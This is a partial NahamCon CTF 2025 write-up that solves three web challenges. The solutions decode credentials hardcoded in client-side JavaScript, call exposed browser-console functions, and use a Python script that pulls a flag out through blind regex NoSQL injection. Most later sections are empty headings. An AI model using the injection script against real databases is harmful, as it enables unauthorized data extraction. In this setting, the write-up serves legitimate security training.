






# Writeup NahamCon CTF 2025 - G3n0s

## Table of Contents

### Web Exploitation
1. [Naham-Commencement 2025](#Naham-Commencement-2025)
2. [NoSequel](#NoSequel)
3. [SNAD](#SNAD)
4. [Method In The Madness](#Method-In-The-Madness)
5. [The Mission (Group Challenge)](#The-Mission-(Group-Challenge))

   i. [The Mission-Flag #1](#The-Mission-Flag-#1)
   
   ii. [The Mission-Flag #4](#The-Mission-Flag-#4)
   
   ii. [The Mission-Flag #6 (Bonus)](#The-Mission-Flag-#6-(Bonus))

### Reverse Engineering
1. [What's a base amongst friends?](#What's-a-base-amongst-friends?)

### Cryptography
1. [Cryptoclock](#Cryptoclock)

### Misc
1. [The Oddyssey](#The-Oddyssey)
2. [The Martian](#The-Martian)
3. [Screenshot](#Screenshot)

### Osint
1. [Taken to School](#Taken-to-School)

---

## Web Exploitation

### Naham-Commencement 2025
> Author: @HuskyHacks

### Description
> I don't believe in updating my computer, it just takes so long! Besides, no one could ever hack me, I use good passwords!
> 
> Welcome, Naham-Hacker Class of 2025! This challenge is your official CTF opening ceremony. Enjoy the CTF, play fair, play smart, and get those flags! BEGIN! 📯
> 
> (True story: NahamSec originally contracted me to built the actual NahamCon site. I showed this to him as a prototype and he said "you know, let's actually move you to the CTF dev team...")
> 
> NOTE, we have noticed an odd gimmick with this challenge -- if you seem to repeatedly see a message An error occurred while processing your request., try changing how you connect to the Internet in case any provider oddities are getting in the way.
> 
> http://challenge.nahamcon.com:31977


### Solution

Saw this line of the code in main.js

```bash
document.addEventListener('DOMContentLoaded', function () {
    const x1 = "dqxqcius"; //username
    const x2 = "YeaTtgUnzezBqiwa2025"; //password
    const k = "nahamcon"; // most likely a key
```

dqxqcius (Caesar cipher)



YeaTtgUnzezBqiwa2025 + nahamcon (Vigenere cipher)



login with the credentials



Flag:
```bash
flag{c419dfe3a0a621edc0150a133bb7a34c}
```

---

### NoSequel
>Author: @HuskyHacks


### Description
> It always struck me as odd that none of these movies ever got sequels! Absolute cinema.
> 
>http://challenge.nahamcon.com:32138

### Solution



It says that the queries will NOT work on the Movies collection but WILL work on the Flags collection
So, we need to steal the secret flag stored as a document in the Flags collection.

Using blind‐regex NoSQL injection against the Flags collection, you can fully reconstruct the hidden flag and complete the challenge.

solve.py
```bash
import requests
import string

URL = "http://challenge.nahamcon.com:32138/search"
CHARSET = string.ascii_lowercase + string.ascii_uppercase + string.digits + "_{}"

def matches(prefix):
    # build the regex query for “does flag start with prefix?”
    query = f'flag: {{$regex: "^{prefix}"}}'
    data = {"collection": "flags", "query": query}
    r = requests.post(URL, data=data)
    return "Pattern matched" in r.text

flag = ""
# we know it starts “flag{”
flag = "flag{"

while not flag.endswith("}"):
    for c in CHARSET:
        if matches(flag + c):
            flag += c
            print("Found so far:", flag)
            break
    else:
        print("No match found for next character? Something’s off.")
        break

print("Complete flag:", flag)

// Found so far: flag{4cb8649d9ecb0ec59d1784263602e686{
```
Flag:
```bash
flag{4cb8649d9ecb0ec59d1784263602e686}
```

---

### SNAD
>Author: @HuskyHacks

### Description
>No, it's not a typo. It's not sand. It's SNAD. There's a difference!
>
>http://challenge.nahamcon.com:31136/

### Solution



The script.js attaches injectSand and other functions/variables to window, meaning they can be called directly from the browser console, like:

```bash

function setup() {
    createCanvas(windowWidth, windowHeight),
    resetGrid(),

    document.addEventListener("keydown", function(e) {
        "t" === e.key && (targetIndicatorsVisible = !targetIndicatorsVisible),
        "x" === e.key && toggleGravity()
    }),

    // These lines expose internal functions and variables to the global `window` object
    window.injectSand = injectSand,
    window.toggleGravity = toggleGravity,
    window.particles = particles,
    window.targetPositions = targetPositions,
    window.checkFlag = checkFlag
}
```
insert this into console and you’ll get the flag

```bash
injectSand(367, 238, 0)
injectSand(412, 293, 40)
injectSand(291, 314, 60)
injectSand(392, 362, 120)
injectSand(454, 319, 240)
injectSand(349, 252, 280)
injectSand(433, 301, 320)
```


Flag:
```bash
flag {6ff0c72ad11bf174139e970559d9b5d2} 
```

---

### Method In The Madness

### Description

### Solution

---

### The Mission (Group Challenge)

### Description

### The Mission - Flag #1

---

### Solution

### The Mission - Flag #4

### Solution

---

### The Mission - Flag #6

### Solution

---

## Reverse Engineering

### What's A Base Amongs Friends ?

### Description

### Solution

---

## Cryptography

### Cryptolock

### Description

### Solution

---

## Miscellaneous

### The Oddyssey

### Description

### Solution

---

### The Martian

### Description

### Solution

---

### Screenshot

### Description

### Solution

---

## Osint

### Taken to School

### Description

### Solution

---
